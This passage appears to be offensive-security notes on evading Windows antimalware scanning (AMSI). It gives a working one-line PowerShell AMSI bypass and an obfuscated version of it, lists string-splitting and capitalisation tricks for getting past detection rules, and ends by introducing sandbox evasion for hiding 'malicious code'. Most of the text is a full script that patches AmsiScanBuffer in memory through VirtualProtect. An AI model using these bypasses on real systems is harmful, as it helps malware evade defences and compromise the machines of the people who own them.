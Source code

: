 ```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Becomes

[Ref].Assembly.gETTyPE('Sy' +'tem' +'.Ma' + 'nagemen' + 't.a' + 'utomation.' + 'ams' + 'iuTils'.getFIELD('am' + 'siIn' + 'itFail' + 'ed', 'NonPublic,Static').setvaluE($null,$true) 
```
- Arbitrary Capitalization manipulation
	- Change how cmdlets are capitalized to help evade rules-based detections.
- Reorder components
- Random amounts of uninterpreted whitespace
- Uninterpreted ticks.
- Patch AMSI
	- Hot-patching AMSI to accept anything is a valid option. Since AMSI is running with the same privileges as our process, we can just hot-patch a "don't trigger" over the "trigger" part of the binary. 
```powershell

# This code will need to be obfuscated.

$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, 'AmsiScanBuffer');
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

Automated solutions include [[Amsi.fail]]

# Sandbox Evasion

A sandbox is a temporary test machine used to track your application's actions on its target to determine if they are malicious. However, we can detect if we are running in a sandbox and wait to execute our malicious code until we are running on our actual target machine. 
